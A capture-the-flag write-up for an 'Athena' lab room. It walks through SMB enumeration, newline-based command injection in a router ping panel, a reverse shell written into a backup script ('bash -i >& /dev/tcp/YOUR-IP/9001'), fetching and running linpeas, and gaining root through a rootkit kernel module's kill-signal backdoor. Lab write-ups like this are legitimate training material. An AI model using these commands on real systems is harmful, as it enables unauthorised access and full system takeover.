#### Author: AMD

This is a writeup for <b>Athena</b> room.

My target IP: 10.10.231.238

-----------------------------------------------------------------------------------
<b>NMAP</b>

Lets scan out target.



-----------------------------------------------------------------------------------
<b>RESEARCH</b>

Let's see what unusual ports used for.



-----------------------------------------------------------------------------------
<b>SMB CLIENT CONNECTION</b>

Let's list SMB shares that are accessible as guest. (-N)







We are in.

-----------------------------------------------------------------------------------
<b>SMB CLIENT</b>

Let's look around.



Run "vim msg_for_administrator.txt"



-----------------------------------------------------------------------------------
<b>ROUTER PANEL</b>



Let's try whoami.





-----------------------------------------------------------------------------------
<b>INJECTION</b>

Input "dummy", catch the request with Burp Suite and send to repeater.

All attempts ends up with "Attempt hacking!" or "Failed to execute ping." if they contain characters like ';' '|' '&' etc. But '\n' (%0a) works





-----------------------------------------------------------------------------------
<b>REVERSE SHELL</b>

run "nc -lvnp 4444"





We need to connect user athena.

-----------------------------------------------------------------------------------
<b>PRIVILEGE EXCALTION PART 1</b>

run "wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh" to get linpeas.sh on your pc.

run "python3 -m http.server 8080" on your pc to host it.  (Close Burp or change port)

run "wget http://YOUR-IP:8080/linpeas.sh -O /tmp/linpeas.sh"

run "chmod +x /tmp/linpeas.sh" to make it executable

run "/tmp/linpeas.sh"





-----------------------------------------------------------------------------------
<b>PRIVILEGE EXCALTION PART 2</b>

run "echo 'bash -i >& /dev/tcp/YOUR-IP/9001 0>&1' > /usr/share/backup/backup.sh"

run "nc -lvnp 9001" on your pc,

-----------------------------------------------------------------------------------
<b>GET USER FLAG</b>



-----------------------------------------------------------------------------------
<b>USER athena PERMISSION</b>



-----------------------------------------------------------------------------------
<b>PRIVILEGE EXCALTION PART 3</b>



It is readable. Lets get it





-----------------------------------------------------------------------------------
<b>INSPECT venom.ko</b>

Fire up Ghidra and open venom.ko

Under functions find give_root function.



Other weird funciton is hacked_kill.





If we kill the process 57 (0x39) we can become root.
-----------------------------------------------------------------------------------
<b>PRIVILEGE EXCALTION PART 4</b>

run "sudo /usr/sbin/insmod /mnt/.../secret/venom.ko"

run "kill -57 0"

run "id"

-----------------------------------------------------------------------------------
<b>GET ROOT FLAG</b>

run "cd /root"

run "cat root.txt"


